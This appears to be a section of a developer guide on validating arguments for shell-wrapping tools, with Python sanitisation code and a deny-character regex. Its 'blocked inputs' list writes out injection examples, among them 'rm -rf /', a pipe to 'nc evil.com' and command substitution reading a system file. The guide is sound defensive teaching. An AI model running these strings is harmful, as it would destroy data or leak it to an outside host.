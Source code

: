 #### Pattern 3: Complex Value Validation

```python
def _sanitize_tokens(self, tokens: Sequence[str]) -> Sequence[str]:
    """Override for custom value validation."""
    safe = []
    expect_value_for = None
    
    for token in tokens:
        # Handle flag values
        if expect_value_for:
            # Validate value for previous flag
            if expect_value_for == "-c":
                if not token.isdigit() or int(token) > 100:
                    raise ValueError(f"Invalid count: {token} (must be 1-100)")
            
            safe.append(token)
            expect_value_for = None
            continue
        
        # Check if flag requires value
        if token in self._FLAGS_REQUIRE_VALUE:
            expect_value_for = token
        
        safe.append(token)
    
    return safe
```

### 14.4 Dangerous Pattern Prevention

**Always block these:**
```python
# Blocked by default in base_tool.py
_DENY_CHARS = re.compile(r"[;&|`$><\n\r]")

# Examples of blocked inputs:
❌ "arg1; rm -rf /"       # Command injection
❌ "arg1 && malware"      # Command chaining
❌ "arg1 | nc evil.com"   # Pipe to external
❌ "arg1 `whoami`"        # Command substitution
❌ "arg1 $(cat /etc/pwd)" # Command substitution
❌ "arg1 > /tmp/evil"     # File redirection
```

**Additional patterns to block:**
```python
# In your tool's validation
def _parse_args(self, extra_args: str) -> Sequence[str]:
    tokens = super()._parse_args(extra_args)
    
    for token in tokens:
        # Block path traversal
        if ".." in token:
            raise ValueError(f"Path traversal detected: {token}")
        
        # Block absolute paths (if inappropriate)
        if token.startswith("/"):
            raise ValueError(f"Absolute paths not allowed: {token}")
        
        # Block wildcards (if risky for your tool)
        if "*" in token or "?" in token:
            raise ValueError(f"Wildcards not allowed: {token}")
    
    return tokens
```